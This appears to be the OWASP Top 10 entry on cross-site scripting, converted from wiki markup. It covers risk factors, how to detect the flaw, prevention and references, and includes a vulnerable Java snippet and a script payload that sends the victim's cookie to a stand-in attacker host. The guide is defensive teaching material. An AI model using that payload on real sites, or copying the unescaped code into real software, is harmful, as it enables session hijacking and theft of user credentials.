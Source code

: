 `    <td ``>`

Consider anyone who can send untrusted data to the system, including
external users, internal users, and administrators.

</td>

`    <td ``>`

Attacker sends text-based attack scripts that exploit the interpreter in
the browser. Almost any source of data can be an attack vector,
including internal sources such as data from the database.

</td>

`    <td colspan=2  ``>`

[XSS](Cross-site_Scripting_\(XSS\) "wikilink") is the most prevalent web
application security flaw. XSS flaws occur when an application includes
user supplied data in a page sent to the browser without properly
validating or escaping that content. There are two different types of
XSS flaws: 1) [Stored](Cross-site_Scripting_\(XSS\) "wikilink") and 2)
[Reflected](Cross-site_Scripting_\(XSS\) "wikilink"), and each of these
can occur on the a)
[Server](Types_of_Cross-Site_Scripting#Server_XSS "wikilink") or b) on
the [Client](Types_of_Cross-Site_Scripting#Client_XSS "wikilink").

Detection of most [Server
XSS](Types_of_Cross-Site_Scripting#Server_XSS "wikilink") flaws is
fairly easy via testing or code analysis. [Client
XSS](Types_of_Cross-Site_Scripting#Client_XSS "wikilink") is very
difficult to identify.

</td>

`    <td ``>`

Attackers can execute scripts in a victim’s browser to hijack user
sessions, deface web sites, insert hostile content, redirect users,
hijack the user’s browser using malware, etc.

</td>

`    <td ``>Consider the business value of the affected system and all the data it processes.`

Also consider the business impact of public exposure of the
vulnerability.

</td>

You are vulnerable if you do not ensure that all user supplied input is
properly escaped, or you do not verify it to be safe via server-side
input validation, before including that input in the output page.
Without proper output escaping or validation, such input will be treated
as active content in the browser. If Ajax is being used to dynamically
update the page, are you using [safe JavaScript
APIs](https://www.owasp.org/images/c/c5/Unraveling_some_Mysteries_around_DOM-based_XSS.pdf)?
For unsafe JavaScript APIs, encoding or validation must also be used.

Automated tools can find some XSS problems automatically. However, each
application builds output pages differently and uses different browser
side interpreters such as JavaScript, ActiveX, Flash, and Silverlight,
making automated detection difficult. Therefore, complete coverage
requires a combination of manual code review and penetration testing, in
addition to automated approaches.

Web 2.0 technologies, such as Ajax, make XSS much more difficult to
detect via automated tools.

Preventing XSS requires separation of untrusted data from active browser
content.

1.  The preferred option is to properly escape all untrusted data based
    on the HTML context (body, attribute, JavaScript, CSS, or URL) that
    the data will be placed into. See the [OWASP XSS Prevention Cheat
    Sheet](XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet "wikilink")
    for details on the required data escaping techniques.
2.  Positive or “whitelist” server-side input validation is also
    recommended as it helps protect against XSS, but is <u>not a
    complete defense</u> as many applications require special characters
    in their input. Such validation should, as much as possible,
    validate the length, characters, format, and business rules on that
    data before accepting the input.
3.  For rich content, consider auto-sanitization libraries like OWASP’s
    [AntiSamy](AntiSamy "wikilink") or the [Java HTML Sanitizer
    Project](OWASP_Java_HTML_Sanitizer_Project "wikilink").
4.  Consider [Content Security
    Policy](Content_Security_Policy "wikilink") (CSP) to defend against
    XSS across your entire site.

The application uses untrusted data in the construction of the following
HTML snippet without validation or escaping:

<span style="color:red;"> (String) page +=
"<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";

</span>

The attacker modifies the 'CC' parameter in their browser to:

<span style="color:red;"> <span style="color:red;">'\>

<script>

document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi
?foo='+document.cookie

</script>

'.</span>

</span>

This causes the victim’s session ID to be sent to the attacker’s
website, allowing the attacker to hijack the user’s current session.

Note that attackers can also use XSS to defeat any automated CSRF
defense the application might employ. See A8 for info on CSRF.

  - [Types of Cross-Site
    Scripting](Types_of_Cross-Site_Scripting "wikilink")
  - \[\[XSS (Cross Site Scripting) Prevention Cheat Sheet | OWASP XSS
    Prevention Cheat Sheet

\]\]

  - [OWASP DOM based XSS Prevention Cheat
    Sheet](DOM_based_XSS_Prevention_Cheat_Sheet "wikilink")
  - [OWASP Cross-Site Scripting
    Article](Cross-site_Scripting_\(XSS\) "wikilink")
  - [ESAPI Encoder
    API](https://static.javadoc.io/org.owasp.esapi/esapi/2.1.0.1/org/owasp/esapi/Encoder.html)
  - [ASVS: Output Encoding/Escaping Requirements (V6)](ASVS "wikilink")
  - [OWASP AntiSamy: Sanitization Library](AntiSamy "wikilink")
  - [Testing Guide: 1st 3 Chapters on Data Validation
    Testing](Testing_for_Data_Validation "wikilink")
  - [OWASP Code Review Guide: Chapter on XSS
    Review](Reviewing_Code_for_Cross-site_scripting "wikilink")
  - [OWASP XSS Filter Evasion Cheat
    Sheet](XSS_Filter_Evasion_Cheat_Sheet "wikilink")

<!-- end list -->

  - [CWE Entry 79 on Cross-Site
    Scripting](http://cwe.mitre.org/data/definitions/79.html)